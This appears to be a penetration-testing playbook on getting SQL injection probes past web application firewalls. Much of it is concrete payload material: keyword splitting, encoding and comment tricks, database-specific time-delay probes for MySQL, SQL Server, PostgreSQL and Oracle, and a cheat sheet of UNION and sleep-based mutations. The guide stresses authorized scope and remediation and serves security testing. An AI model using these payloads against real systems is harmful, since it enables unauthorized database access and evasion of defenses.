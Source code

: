 ```yaml
---
Vulnerability: SQLi
Category: Heuristic
---
```

# WAF Evasion Playbook (for SQLi Testing)

> **Scope:** Practical, minimally invasive **bypass patterns** for confirming SQL injection when generic WAF/IDS/IPS filters block straightforward probes. **Use only on authorized targets.** Prefer the least aggressive technique that proves the issue.

---

## 1) Safety & Approach
- Start with **benign** toggles (boolean/time) before trying heavy obfuscation.
- Keep a **lab notebook**: record payload → response (status/length/latency) and the mutation that made a difference.
- Throttle requests and cap attempts; avoid noisy CPU-heavy primitives (e.g., huge `BENCHMARK` counts).
- If a control path exists (e.g., a test/staging header), request a **temporary WAF allowlist** instead of escalating evasion.

---

## 2) Canonicalization Recon (what the server really sees)
1. Send echo-friendly inputs (e.g., to a search/list endpoint).
2. Vary encodings and whitespace; examine **server echo** and **response shape** to infer normalization rules.
3. Derive a **canonical form**: what ends up at the parser after URL-decoding, case folding, and comment stripping.

Checklist: Does the stack **lowercase** input? Collapse multiple spaces? Decode `%2f` to `/`? Strip `/*...*/`? Require a space after `--`? 

---

## 3) General Evasion Patterns
### 3.1 Case toggling & keyword breaking
- Mixed-case tokens defeat case-sensitive signatures:
```
SeLeCt, UnIoN, WaItFoR, pG_sLeEp
```
- Split keywords with noise that SQL ignores:
```
UNI/**/ON SEL/**/ECT
U N I O N/**/SELECT
```

### 3.2 Whitespace tricks
- Replace spaces with: `/**/`, tab `%09`, newline `%0a`, vertical tab `%0b`, form feed `%0c`, carriage return `%0d`.
- Parentheses can sometimes stand in for spaces around expressions: `AND(1=1)`.

### 3.3 Comment styles & quirks
- **MySQL**: requires a space after `--` (`-- `); supports `#`, `/* ... */`, and **versioned comments**:
```
/*!50000 SELECT user() */
```
- **MSSQL/PostgreSQL/Oracle**: `--` (line) and `/* ... */` (block). Oracle also accepts uppercase/lowercase freely.

### 3.4 No‑quotes payloads (survive quote filters)
- Use numeric contexts or build strings via char/hex:
```
-- MySQL
0x7139785A, CHAR(113,57,120,90)
-- MSSQL
CHAR(113)+CHAR(57)+CHAR(120)+CHAR(90)
-- PostgreSQL
CHR(113)||CHR(57)||CHR(120)||CHR(90)
-- Oracle
CHR(113)||CHR(57)||CHR(120)||CHR(90)
```

### 3.5 Operator & predicate variants
- Booleans: `1=1`, `1<2`, `2 BETWEEN 1 AND 3`, `COALESCE(1,0)=1`.
- Conditionals:
```
-- MySQL: IF(cond,1,0)
-- MSSQL/PostgreSQL/Oracle: CASE WHEN cond THEN 1 ELSE 0 END
```

### 3.6 Encodings & double‑decoding
- URL-encode selective bytes (`%27` for `'`, `%20` for space); if WAF decodes once, try **double-encoding** (`%2527`).
- Mix encodings with case-breaking and comments for layered bypasses.

### 3.7 Trailing comment normalizations
- Stabilize trailing comment to neutralize the remainder of the query. Try:
```
-- -      --+      --%20      #      /* */
```

### 3.8 String concatenation alternatives
- When `'||'` or `+` is filtered, use function-based concat:
```
CONCAT(a,b), CONCAT_WS(':',a,b)   -- MySQL
CAST(a AS NVARCHAR(4000))+b       -- MSSQL
(a || b) or to_char(a)||b         -- PostgreSQL/Oracle
```

### 3.9 Length & token shaping
- Some WAFs flag large responses or specific lengths. Equalize TRUE/FALSE branches by appending inert text or balancing predicates so both branches render similar lengths.

---

## 4) DB‑Specific Bypasses
### 4.1 MySQL / MariaDB
- `/*!SELECT*/` executes depending on version: `UNI/*!00000*/ON SEL/*!00000*/ECT`.
- Hex comparisons coerce to strings in some contexts: `0x61646D696E='admin'`.
- Use `SLE/**/EP(3)`; remember `-- ` needs a trailing space.

### 4.2 Microsoft SQL Server
- Split tokens: `WaItFoR DEL/**/AY '0:0:3'`, `CON/**/VERT(INT, ...)`.
- Normalize to `NVARCHAR` to avoid type mismatch signatures: `CAST(expr AS NVARCHAR(4000))`.
- Prefer `CASE WHEN` over `IF` (T‑SQL doesn’t support `IF()` as an expression).

### 4.3 PostgreSQL
- Dollar‑quoting in blocks sidesteps quote escaping: `DO $$ BEGIN ... END $$;`.
- Function aliases: `pg_sleep_for('3 seconds')` vs `pg_sleep(3)`.
- Use `::text` casts to normalize types in UNION.

### 4.4 Oracle
- Alternative quoting: `q'[text with ' quotes]'`.
- PL/SQL blocks for stacked effects: `BEGIN dbms_lock.sleep(3); END;`.
- If `DBMS_LOCK` is blocked, use `dbms_pipe.receive_message('x',3)` for time probes.

---

## 5) HTTP‑layer Evasion (before SQL)
- **Content‑Type pivots**: try `application/json`, `text/plain`, or `multipart/form-data` instead of URL‑encoded forms.
- **Parameter shape**: arrays (`q[]=x`), nested JSON, or different param names that map to the same server field.
- **Parameter pollution**: duplicate keys (`id=1&id=2`) to influence parser selection (authorized testing only).
- **Header vectors**: some backends log or persist headers into SQL (e.g., `X-Forwarded-For`, `User-Agent`). Use cautiously.
- **Path vs query**: move input from query string to route param or body if the app allows.
- **Encoding differences**: `+` vs `%20`, UTF‑8 overlongs (modern stacks usually reject), mixed case.

**Goal:** Find an input path that reaches SQL **before** the WAF’s most strict rules, not to disrupt perimeter defenses in general.

---

## 6) Example Mutations (cheat sheet)
```
-- Keyword split
UNI/**/ON SEL/**/ECT 1,version(),3

-- No‑quotes marker
UNION ALL SELECT 1,CHAR(113,57,120,90),3

-- Time probe variants
AND SLE/**/EP(3)-- -
; WaItFoR DEL/**/AY '0:0:3';--
AND CASE WHEN current_database()='appdb' THEN pg_sleep(3) ELSE pg_sleep(0) END-- -

-- Trailing comment stabilizers
-- -   --+   --%0a   #   /* */
```

---

## 7) When to Stop
- Stop once you’ve **proven control** (boolean flip, short time delay, or single-value echo).
- Do **not** mass‑dump data or attempt privileged features (file I/O, OOB callbacks) unless explicitly in scope.
- Provide developers with a **minimal reproduction** and a mitigation plan (prepared statements + identifier allowlists).

---

## 8) Quick Reviewer Checklist
- [ ] Evasion kept minimal; lawful scope respected
- [ ] Server canonicalization understood (echo/length tests)
- [ ] Successful mutation recorded (what bypassed what)
- [ ] Proof type captured (boolean/time/union/error)
- [ ] Clear remediation provided (parameterization, least privilege)
